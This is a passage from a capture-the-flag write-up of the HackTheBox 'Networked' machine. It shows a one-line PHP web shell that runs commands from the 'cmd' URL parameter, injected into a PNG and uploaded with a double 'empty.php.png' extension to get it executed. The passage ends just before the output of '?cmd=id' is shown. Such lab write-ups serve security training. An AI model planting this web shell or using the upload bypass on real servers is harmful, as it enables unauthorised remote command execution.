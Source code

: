 
If we visit `http://networked.htb/uploads/10_10_14_101.png` we can get the file directly as well.


In the nextstep, we inject some php code into the file:


```php
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
```

![inject-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/inject-14.png)


This should break the image rendering completely, but if the file get's rendered as php it should give us a simple webshell.


Let's upload the file as `empty.php.png`, and try to access it at `http://networked.htb/uploads/10_10_14_101.png` 

![broken-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Networked/img/broken-15.png)


The iamge cannot be disaplyed, and understandably so. But if we add the `?cmd=id` argument we get the following:
